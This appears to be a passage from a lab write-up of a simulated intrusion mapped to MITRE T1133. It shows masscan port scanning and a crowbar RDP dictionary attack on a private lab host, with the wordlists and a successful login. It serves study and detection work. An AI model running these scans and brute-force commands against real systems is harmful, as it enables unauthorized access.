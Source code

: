 **CASE1**

## STEP1. Initial Access : External Remote Services(T1133)

Attack Tools : masscan, crowbar
- masscan - port scanner : https://github.com/robertdavidgraham/masscan
- Crowbar - Brute forcing tool : https://github.com/galkan/crowbar
Support : OpenVPN, Remote Desktop Protocol (RDP) with NLA support, SSH private key authentication, VNC key authentication

### Attacker

![image](https://github.com/user-attachments/assets/f94a5ef2-97ab-4edd-8a95-6144de8257d4)
[RDP port scan with masscan tool]


```shell

# masscan 192.168.106.142 -p1025-65535 --rate-1000000

┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# masscan 192.168.106.142 -p30000-30040 --rate-1000000

rate-1000000: empty parameter
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-01-10 21:32:54 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [41 ports/host]
Discovered open port 30039/tcp on 192.168.106.142

```

![image](https://github.com/user-attachments/assets/d5e815a5-20b5-4d2b-8fbb-6638e739ce00)
[RDP logon Dictionary Attack with crowbar tool]
```shell
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# ls
bunny.exe  crowbar  mimikatz.exe  nc64.exe  passlist.txt  userlist.txt
                                                                                                          
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat userlist.txt 
test
iglootest
testuser
user
admin
administrator
manager
boss
main                                                                                                      
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat passlist.txt 
qwer1234!
123456
qwer1234
administrator
admin
test
manager
test1234
test1234!
12345678
Administrator                                                                                             
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cd crowbar       
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1/crowbar]
└─# ./crowbar.py -b rdp -s 192.168.106.142/32 -U ../userlist.txt -C ../passlist.txt -p 30039
2025-01-10 17:15:30 START
2025-01-10 17:15:30 Crowbar v0.4.3-dev
2025-01-10 17:15:30 Trying 192.168.106.142:30039
2025-01-10 17:15:36 RDP-SUCCESS : 192.168.106.142:30039 - testuser:qwer1234
2025-01-10 17:15:45 STOP

```
